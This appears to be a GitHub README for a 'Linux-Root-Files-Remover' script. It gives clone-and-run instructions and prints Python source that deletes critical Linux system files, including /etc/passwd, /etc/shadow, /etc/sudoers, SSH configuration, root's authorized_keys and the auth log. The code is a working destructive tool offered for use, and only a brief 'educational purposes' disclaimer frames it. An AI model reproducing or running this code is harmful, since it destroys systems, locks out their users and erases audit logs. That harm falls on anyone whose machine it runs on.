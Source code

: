 <!--Linux-Root-Files-Remover -->

<p align="center">
  <img src="images.png">
</p>


<h1><p align="center">How to Use This Script</p></h1>

<h3><p align="center">Run Python File</p></h3>

1. Install Python on your system if it is not already installed. You can download it from the official Python website.

2. Clone the repo to your device 

3. Open a terminal/command prompt and navigate to the directory where you saved the python file.

4. Run the python script using the command `Linux-Root.py`. This will execute the script and delete the files listed in the `files_to_delete` list.

<h3><p align="center">Run Bash File</p></h3>

- Just, Clone this repository -
  ```
  git clone https://github.com/7ussainnabeel/Linux-Root-Files.git
  ```

- Now go to cloned directory and run `Linux-Root.sh` -
  ```
  $ cd LINUX-ROOT-FILES
  $ bash Linux-Root.sh
  ```
##

<h3><p align="center">Code Explanation</p></h3>

```python
import os

files_to_delete = [
    "/etc/passwd",
    "/etc/shadow",
    "/etc/group",
    "/etc/sudoers",
    "/etc/ssh/sshd_config",
    "/etc/hosts",
    "/etc/network/interfaces",
    "/etc/fstab",
    "/etc/hostname",
    "/etc/resolv.conf",
    "/etc/securetty",
    "/etc/motd",
    "/var/log/auth.log",
    "/root/.ssh/authorized_keys",
    "/etc/hosts.allow",
    "/etc/hosts.deny",
    "/etc/crontab",
    "/etc/cron.d/",
    "/etc/passwd-",
    "/etc/shadow-",
]

for file in files_to_delete:
    if os.path.exists(file):
        os.remove(file)
        print(f"Deleted {file}")
    else:
        print(f"{file} does not exist")
```

The script first imports the os module which provides a way to interact with the system.

The files_to_delete list contains the file paths of the files that the script will delete.

The script then iterates over each file in the files_to_delete list. If the file exists, it is deleted using the os.remove() function. The print() function is used to display a message indicating whether the file was deleted successfully or not.

This Tool is made for educational purposes only. Do not attempt to violate the law with anything contained here. If this is your intention, then Get the hell out of here!

<h1><p align="left">License</p></h1>
This script is released under the MIT License.